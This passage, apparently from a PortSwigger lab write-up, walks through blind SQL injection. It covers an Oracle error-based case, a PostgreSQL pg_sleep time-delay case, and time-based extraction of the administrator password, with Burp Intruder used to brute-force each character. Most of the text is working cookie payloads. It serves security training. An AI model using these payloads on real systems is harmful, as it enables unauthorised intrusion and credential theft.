9HCLCYU9VeK78knn'+AND+(SELECT+CASE+WHEN+((SUBSTR((SELECT+password+FROM+users+WHERE+username+=+'administrator'),1,1))='a')+THEN+TO_CHAR(1/0)+ELSE+'a'+END+FROM+dual)='a;
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



We send this to the Intruder and test all letters and numbers until one
generates a 500 error code:



We get the first letter is "0":



If we continue we get the password 01k6j5tbrjpd9lpdk4zs

13 Blind SQL injection with time delays
=======================================

This lab contains a blind SQL injection vulnerability. The application uses a
tracking cookie for analytics, and performs a SQL query containing the value of
the submitted cookie.

The results of the SQL query are not returned, and the application does not
respond any differently based on whether the query returns any rows or causes an
error. However, since the query is executed synchronously, it is possible to
trigger conditional time delays to infer information.

To solve the lab, exploit the SQL injection vulnerability to cause a 10 second
delay.

References:

-   https://portswigger.net/web-security/sql-injection/blind

-   https://portswigger.net/web-security/sql-injection/cheat-sheet

There is a SQL injection in the cookie. It uses PostgreSQL, sleep 10 seconds
with:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
COOKIE'||pg_sleep(10)--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
TGjY2hbNNRAamLIb'||pg_sleep(10)--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



14 Blind SQL injection with time delays and information retrieval
=================================================================

This lab contains a blind SQL injection vulnerability. The application uses a
tracking cookie for analytics, and performs a SQL query containing the value of
the submitted cookie.

The results of the SQL query are not returned, and the application does not
respond any differently based on whether the query returns any rows or causes an
error. However, since the query is executed synchronously, it is possible to
trigger conditional time delays to infer information.

The database contains a different table called users, with columns called
username and password. You need to exploit the blind SQL injection vulnerability
to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

Hint: You can find some useful payloads on our SQL injection cheat sheet.

References:

-   https://portswigger.net/web-security/sql-injection/blind

-   https://portswigger.net/web-security/sql-injection/cheat-sheet

It is possible to exploit the SQLI and make the server wait 10 seconds with:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
COOKIE'||pg_sleep(10)--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
jIPoq0qYcS0Y2AmF'||pg_sleep(10)--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

We will start with a comparison of 1=1 and 1=2 to see it sleeps only in the
first case:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END
SELECT CASE WHEN (1=2) THEN pg_sleep(10) ELSE pg_sleep(0) END
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
jIPoq0qYcS0Y2AmF'+||+(SELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END)--
jIPoq0qYcS0Y2AmF'+||+(SELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END)--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Then we will add a check to find the first character of the password:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
SELECT CASE WHEN (SUBSTRING((SELECT password FROM users WHERE username='administrator'),1,1)='a') THEN pg_sleep(10) ELSE pg_sleep(0) END
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
jIPoq0qYcS0Y2AmF'+||+(SELECT+CASE+WHEN+(SUBSTRING((SELECT+password+FROM+users+WHERE+username='administrator'),1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END)--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

It seems it is working. We send it to Intruder:



And one of the characters take longer to receive the response, in this case “v”:



Continue character by character nutil getting the password
“v06vaymszli7v131izpv”:


